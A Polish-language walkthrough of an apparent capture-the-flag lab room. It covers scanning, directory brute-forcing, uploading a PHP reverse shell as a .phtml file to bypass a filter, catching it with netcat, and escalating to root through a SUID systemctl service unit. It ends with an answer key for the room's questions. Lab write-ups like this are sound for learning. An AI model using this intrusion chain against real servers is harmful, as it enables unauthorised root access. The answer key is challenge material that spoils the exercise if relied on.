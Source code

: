 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz profil pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

[$ openvpn <Nazwa>.ovpn]


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).


3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

$ nmap -sC -sV -T4 -A <Adress Ip> -oA nmap.nmap

4. Z skanowania da się wydedykować, że na porcie "3333" działa Server Apache. Wpisujemy więc w naszą przeglądarke
AdressIp:3333 i patrzymy co na niej widnieje.

5. Teraz z racji, że szukanie ręcznie ścieżek na stronie może być bardzo monotonne i nie efektywne użyjemy dirb,
dirbuster, wfuzz, gobuster. W zależności w czym wam wygodniej. Ja użyje gobuster'a:

$ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

6. Po chwili znajdziemy ściekę "/internal", więc sprawdzamy co tam jest. ( Ip:3333/internal ). Widzimy, że na stronie
możemy wysyłać pliki do serwera. Pierwsze co sprawdzamy to jakie pliki można dzięki temu wysłać, w większości 
przypadków można ominąć sprawdzenie.

7. Z racji że jestem na systemie "Kali" to użyje PHP shell. Skopiuj reverse-shell do katalogu roboczego:

$ cp /usr/share/webshells/php/php-reverse-shell.php .

8. Musimy teraz zedytować plik na nasz adress Ip i Port. Adress Ip to adress który po wpisaniu "ifconfig" widnieje
obok "tun0" ( Twoje ip w VPN ). Port ustawmy na "hakerski" 4444. ($ip, $port). I zapiszmy plik.
( Ja użyłem edytora "nano", ale można użyć takiego, w którym jest Ci wygodniej np. "vi" )

9. Żeby przechwycić reverse-shella przydałoby się nasłuchiwać port który ustawiliśmy. Użyjemy w tym celu "NetCat":

$ nc -nlvp 4444 (<--port)

10. Możesz zrobić kopie tego pliku na różne ścieżki ".html" ".php" ".php1" ".php2" ".php5" ".phtml". Ja sprawdzałem
próbując wgrać pliki ręcznie, ale ty w tym celu możesz użyć np. "BurpSuite".

11. Po sprawdzeniu na serwer udało sie wysłać plik z rozszerzeniem ".phtml". Więc sprawdzamy gdzie plik się wgrał w 
tym celu do ścieżki dodajemy "/uploads" i widzimy nasz plik reverse.

12. Klikamy w plik na serwerze ( W przeglądarce ) przez co się uruchamia i w terminalu gdzie uruchomiliśmy netcata
widzimy połączenie i możemy zacząć wydawać polecenia.

13. Wpisując np. "id" "whoami" widzimy nasze uprawnienia.

14. W tym momencie musimy zobaczyć do czego mamy uprawnienia wchodząc np. do home:

$ cd /home
$ ls
$ cd bill
$ cat user.txt

15. Wyświtliła nam się pierwsza "flaga" dla user'a.

16. Teraz szukamy plików binarnych SUID. SUID to w skrócie uprawnienia danego użytkowanika do danych plików:

$ find / -user root -perm -4000 -print 2>/dev/null

17. Widzimy teraz pare plików z ustawioną flagą SUID.

18. Teraz musimy zrobić atak o nazwie "Privilege Escalation" do podniesienia naszych uprawnień systemowych. Scanując
flagę SUID znaleźliśmy plik o nazwie "systemctl".

Systemctl to plik binarny, który kontroluje interfejsy użytkowników i est odpowiedzialny np. za uruchamiane usługi
podczas rozruchu. Domyślnie systemctl przeszuka pliki w "/etc/system/systemd" w celu poszukiwania i obsłużenia
jednostek.

19. Na tej maszynie nie możemy tworzyć nowych plików w ścieżkach należących do root'a, ale możemy zmienić zmienne 
środowiskowe w już instniejącym, więc możemy zrobić PrivEsc.

20. Pierwsze co robimy to tworzymy zmienną środowiskową:

$ priv=$(mktemp).service

Teraz musimy stworzyć plik jednostkowy i przypisać go do zmiennej środowiskowej:

$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv


( Nie bój użyć się entera dopóki nie skończy się ' <-- to możemy dalej wpisywać w nowej linijce. )

21. To co przed chwilą zrobiliśmy to prostu utworzenie usługi, która wykona "Basha", a następnie odczyta falge z 
katalogu głównego root'a i zapisze ją w fladze / pliku w katalogu "/opt"

22. Teraz musimy odpalić plik jednostkowy za pomocą "systemctl":

$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv

23. Teraz możemy zobaczyć plik flag w katalogu "/opt":

$ cat flag

24. To tyle przed chwilą wykonaliśmy komendę dla użytkownika root.


// Uzupełnienie rubryk 

Zadanie.2

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Zadanie 3.

1) /internal/

Zadanie 4.

1) .php

2) .phtml

3) bill

4) Twoja flaga dla użytkownika (user-www..)

Zadanie 5.

1) /bin/systemctl

2) Twoja flaga dla administratora (root)
